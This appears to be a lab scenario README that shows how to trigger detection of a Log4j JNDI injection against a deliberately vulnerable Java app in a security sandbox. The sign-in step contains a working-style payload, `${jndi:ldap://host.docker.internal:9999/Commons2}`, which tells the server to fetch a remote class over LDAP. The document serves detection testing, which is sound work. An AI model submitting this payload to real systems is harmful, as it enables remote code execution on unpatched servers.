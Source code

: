 # Scenario: Detect JNDI Injection in HTTP Request (Log4j)

## Prerequisites

- Vision One connected to your AWS Account
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply ecs
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Navigate to <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/todolist>

Click `[Sign in]`

- Username: `${jndi:ldap://host.docker.internal:9999/Commons2}`
- Password: `does not matter`

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-log4j-01.png "Poc")

> ***Note:*** The currently deployed app is not vulnerable for Log4j, the technique from above still triggers the exploitation attempt.
